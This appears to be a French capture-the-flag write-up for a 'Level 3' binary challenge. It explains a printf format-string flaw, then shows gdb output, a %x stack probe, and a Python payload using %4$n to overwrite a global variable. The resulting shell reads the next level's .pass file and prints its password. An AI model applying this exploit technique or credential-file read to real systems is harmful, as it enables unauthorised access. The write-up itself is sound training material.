 # Level 3

En décompilant le binaire on peut voir qu'il y a un call à la fonction `system` avec pour argument `/bin/sh` mais qu'elle est appelé que si la variable `m` ou `0x804988c` sois égale à `64`.

Le binaire ici utilise la fonction `fgets`, cette fonction est protégé contre les buffers overflow.

Le problème ce que récupère `fgets` devient le format de la fonction `printf`.

`printf` à une option `%n` qui permet d'écrire la nombre de charactère affiché à l'adresse d'une variable et ainsi écrire la valeur `64` à `m`

```shell
~ gdb level3
(gdb) disas v
Dump of assembler code for function v:
[...]
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
[...]
End of assembler dump.
(gdb) quit
~ ./level3
BBBB %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078
~ python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"' > /tmp/level3
~ cat /tmp/level3 - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

